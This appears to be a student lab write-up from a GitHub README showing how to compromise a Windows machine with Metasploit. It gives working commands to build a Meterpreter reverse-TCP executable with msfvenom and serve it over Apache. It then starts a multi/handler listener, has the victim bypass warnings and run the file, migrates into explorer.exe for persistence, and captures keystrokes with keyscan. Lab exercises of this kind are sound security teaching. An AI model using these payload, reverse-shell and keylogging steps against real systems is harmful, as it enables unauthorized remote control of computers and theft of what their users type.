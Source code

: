 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![Screenshot 2024-04-28 123448](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/34da429d-b431-45b2-ae30-aa1924e17658)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT
![Screenshot 2024-04-28 123609](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/2e10d3b3-4532-481d-89ff-12681cf20564)




copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-04-28 123754](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/d6671bdd-b44a-4b82-885b-965002153221)


Start apache server
sudo systemctl apache2 start

![Screenshot 2024-04-28 123804](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/49eba652-4a20-4165-8d75-dc17895b278d)



Check the status of apache2
![Screenshot 2024-04-28 123821](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/7cdb2bba-436d-4b1f-8852-270d162e9239)



Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:

![Screenshot 2024-04-28 124530](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/19c78589-b97d-43da-b435-1df8509f757a)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/f351bc12-86c4-43ba-aa28-244eae2c9b27)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/8c859978-ca53-4c49-9a21-c91dff67a007)




## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/326531ef-2adb-43a6-bd9d-a99470c40392)




keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/R-Udayakumar/Compromising-windows-using-Metasploit/assets/118708024/5e944e00-6fab-45ce-951e-ff11a000f3fe)





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
